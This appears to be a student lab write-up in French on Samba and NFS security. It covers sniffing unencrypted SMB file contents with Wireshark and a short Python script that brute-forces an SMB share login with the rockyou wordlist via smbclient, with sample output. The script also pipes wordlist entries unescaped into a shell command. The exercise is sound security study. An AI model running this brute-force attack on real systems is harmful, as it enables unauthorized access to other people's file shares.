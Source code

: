 - Lors d'une ouverture du fichier en NFS ou par Samba, est-il possible d'intercepter le contenu de ce fichier (utilisez un fichier texte ASCII) ?

Oui on peu retrouver le contenu du fichier et même l'exporter depuis wireshark dans le cas d'un document plus complexe à lire qu'un txt.
smb n'est pas chiffré par defaut donc n'import qui en MITM ou connecté à un hub (un peu comme dans virtualbox) peu espioner tout les communications qui passe par ce protocole.

![arpspoof](smbfileretreive.png)


- Une attaque par force brute peut fonctionner sur le service Samba ? Testez-le.

On crée un petit script :
```python
import os

for p in [cmd.replace("\n", "") for cmd in open("rockyou.txt", "r").readlines()]:
        cmd = f"smbclient //192.168.33.210/share -U carambole%{p}"
        os.system(cmd)
```
```
$ python3 brute_force.py
session setup failed: NT_STATUS_LOGON_FAILURE
session setup failed: NT_STATUS_LOGON_FAILURE
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
session setup failed: NT_STATUS_LOGON_FAILURE
session setup failed: NT_STATUS_LOGON_FAILURE
```
On voit qu'on a une erreur différente pour le 3ème mdp de la liste (qui est le bon !). Le script est pas très propre mais ça fonctionne.